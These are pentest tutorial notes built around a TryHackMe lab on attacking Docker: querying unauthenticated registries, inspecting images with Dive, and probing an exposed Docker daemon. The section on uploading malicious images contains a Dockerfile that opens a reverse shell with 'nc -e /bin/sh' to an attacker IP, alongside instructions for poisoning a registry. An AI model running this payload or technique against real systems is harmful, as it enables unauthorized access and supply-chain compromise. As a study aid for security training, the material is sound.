



# Docker Exploitation and Docker vulnerabilities

> This page is in web pentest but Docker can be found in other type of pentests such as network pentest for instance.  
> It can also be used for privesc on linux among other things.
> *This documentation has been made using the room [The Docker Rodeo on TryHackMe](https://tryhackme.com/room/dockerrodeo) and of course notes from my practice*  

## Abusing a Docker Registry

We can launch an nmap scan to check on which port a Docker registry is running `nmap -sV -p- 10.10.137.64`  

  

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/) or [Insomnia](https://insomnia.rest/download/) are much better suited for the job.  
We can also use Burp and forge requests with the repeater for example. In the room Cnmatic uses Postman but I am going to use Burp.  

- We can send a `GET` request to `http://target:5000/v2/_catalog` to list all the repositories.

  

- To query all published tags of a repository we can send a `GET` request to `http://target:5000/v2/repository/name/tags/list`

  

- To get a manifest file to the repository we found we can send a `GET` request to `http://target:5000/v2/repository/name/manifests/tag`

  

> Not to edit the targe in burp repeater you need to click here  and edit the window according to your needs  

  

### Example with a registry on port 7000

Abusing the Registry on port 7000  

- List the repos


- List the published tags


- Grab data


## Reverse Engineering Docker Images

We can pull the image locally and reverse engineer it with Dive.

### Dive

- [Dive official repo](https://github.com/wagoodman/dive#installation)
- Install on Ubuntu

```bash
export DIVE_VERSION=$(curl -sL "https://api.github.com/repos/wagoodman/dive/releases/latest" | grep '"tag_name":' | sed -E 's/.*"v([^"]+)".*/\1/')
curl -OL https://github.com/wagoodman/dive/releases/download/v${DIVE_VERSION}/dive_${DIVE_VERSION}_linux_amd64.deb
sudo apt install ./dive_${DIVE_VERSION}_linux_amd64.deb
```

- We can pull the image `docker pull target:5000/dive/example`
- `docker images` to get the image ID
- `dive image-id`
  - Navigate the data within the current window using the "Up" and "Down" Arrow-keys.
  - You can swap between the Windows using the "Tab" key.

### Example of view in Dive


## Uploading Malicious Docker Images

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs a `docker pull` or `docker run` command, their host will download and execute our malicious image as it will be a new version for Docker.  

- Dockerfile that will connect to our machine with netcat

```yml
FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh <ATTACKING-MACHINE-IP> 8080
```

We compile this into an image with docker build . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

- `rlwrap nc -lvnp 8080`

This way we will get access as root to the container. The next step will be to try to escape the container or privesc one way or another.

## RCE via Exposed Docker Daemon

Sometimes Docker can be set up to be used remotely, this way when enumerating a target with nmap we might find docker running on a target.  

- `curl http://TARGET-IP:2375/version` Check if we can interact with the Docker Daemon. If it works we get a result looking like this.  


- `docker -H tcp://TARGET-IP:2375 ps` list the currently running container the H flag allows us to specify the IP of our remote target.


### Coming soon

## Resources

### Tools

- [Dive](https://github.com/wagoodman/dive#installation)
- [Rootplease](https://registry.hub.docker.com/r/chrisfosterelli/rootplease)

### Documentation

- [Docker Registry Documentation](https://docs.docker.com/registry/spec/api/)

### Other references to Docker vulnerabilities

- [Linux privesc - Docker group](https://csbygb.gitbook.io/pentips/linux/privesc/groups#docker)

### Blogs

- [Privilege Escalation via Docker - Chris Foster](https://fosterelli.co/privilege-escalation-via-docker)

### Writeups with Docker related exploits

- [HTB - Goodgames](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-goodgames)
- [HTB - Toolbox](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-toolbox)
- [TryHackMe - Ultratech](https://csbygb.gitbook.io/pentips/writeups/thmwriteups/thm-ultratech)
- [HTB - Shoppy](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-shoppy)
- [HTB - Mentor](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-mentor)